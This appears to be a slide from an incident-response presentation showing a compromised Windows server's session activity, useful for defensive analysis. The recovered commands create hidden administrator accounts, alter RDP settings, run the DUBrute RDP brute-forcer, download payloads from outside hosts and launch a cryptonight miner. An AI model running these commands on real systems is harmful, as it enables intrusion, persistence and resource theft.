

# Pivot to Device Session Activity
| C:\Windows\Explorer.EXE" |
| --- |
| C:\Users\ADMINI~1\AppData\Local\Temp\3\wrsd.exe 429308 z |
| reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG\_DWORD /d 1 /f |
| reg add "HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG\_DWORD /d 1 /f |
| reg delete "HKEY\_LOCAL\_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v legalnoticecaption /f |
| reg delete "HKEY\_LOCAL\_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v legalnoticetext /f |
| net user ASPNET crystal123!@# /add |
| net localgroup Administrators ASPNET /add |
| net user \_\_\_VMware\_Conv\_SA\_\_\_ crystal123!@# /add |
| net localgroup Administrators \_\_\_VMware\_Conv\_SA\_\_\_ /add |
| "C:\Program Files (x86)\Internet Explorer\IEXPLORE.EXE" SCODEF:4816 CREDAT:267521 /prefetch:2 |
| "C:\Users\Administrator\AppData\Local\Microsoft\Windows\Temporary Internet Files\Content.IE5\FB7Z3X4W\TurboMailer-Setup.exe" |
| "C:\Program Files (x86)\TurboMailer\TurboMailer.exe" |
| "C:\Windows\system32\NOTEPAD.EXE" C:\Users\Administrator\Desktop\400k\400k.txt |
| "C:\Windows\system32\NOTEPAD.EXE" C:\Users\Administrator\AppData\Local\Temp\3\Temp1\_DUB8.2.zip\DUB8.2\config.ini |
| "C:\Users\Administrator\AppData\Local\Temp\3\Temp1\_DUB8.2.zip\DUB8.2\DUB8.2.exe" |
| net user guest |
| "C:\Program Files (x86)\TurboMailer\turbomailer.exe" |
| "C:\Windows\system32\NOTEPAD.EXE" C:\Users\Administrator\Desktop\april17.txt |
| "C:\Windows\system32\NOTEPAD.EXE" C:\Users\Administrator\AppData\Local\Temp\3\Temp1\_march.zip\march.txt |
| "C:\Users\Administrator\Downloads\dn2.exe" |
| "C:\Users\Administrator\Downloads\f.exe" |
| "C:\Users\Administrator\Downloads\x.exe" |
| "C:\Users\Administrator\Downloads\y.exe" |
| "C:\Users\Administrator\Downloads\dn2.exe" |
| "C:\Users\Administrator\Downloads\Stable\_DUBrute\_2.1\DUBrute 2.1 (UPDATE 03.03.12)\DUBrute.exe" |
| "C:\Windows\system32\NOTEPAD.EXE" C:\Users\Administrator\Downloads\Stable\_DUBrute\_2.1\DUBrute 2.1 (UPDATE 03.03.12)\good.txt |
| "C:\Windows\system32\NOTEPAD.EXE" C:\Users\Administrator\Downloads\Stable\_DUBrute\_2.1\DUBrute 2.1 (UPDATE 03.03.12)\Logins.txt |
| "C:\Windows\system32\NOTEPAD.EXE" C:\Users\Administrator\Downloads\Stable\_DUBrute\_2.1\DUBrute 2.1 (UPDATE 03.03.12)\Passwords.txt |
| "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" -- "http://119.10.151.120:1234/3.zip" |
| "C:\Windows\system32\rundll32.exe" C:\Windows\system32\shell32.dll,OpenAs\_RunDLL C:\Users\Administrator\Downloads\DUBrute 2.1 (UPDATE 03.03.12)\ssleay32.dll |
| "C:\Windows\system32\NOTEPAD.EXE" C:\Users\Administrator\Downloads\DUBrute 2.1 (UPDATE 03.03.12)\config.ini |
| "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" -- "http://ys-h.ys168.com/3.0/548253621/SIuMfJl7K3T5561HXPJK/DUB\_8.0.zip" |
| "mstdc.exe -a cryptonight -o bcn -u bond007.01 -p x -t 4" |
wrsd.exe  429308 z
reg  delete ...legalnoticecaption
net  user ASPNET crystal123!@# /add
net  user ___VMware_Conv_SA___ crystal123!@# /add
net  localgroup Administrators ASPNET /add
net  localgroup Administrators ___VMware_Conv_SA___ /add
…
"C:\Program Files (x86)\Internet Explorer\IEXPLORE.EXE"
...Temporary Internet Files\...\TurboMailer-Setup.exe"
"C:\Program Files (x86)\TurboMailer\TurboMailer.exe"
NOTEPAD.EXE C:\Users\Administrator\Desktop\400k\400k.txt
chrome.exe -- http://ys-h.ys168.com/3.0/.../mstdc.exe
mstdc.exe -a cryptonight -o bcn -u bond007.01 -p x -t 4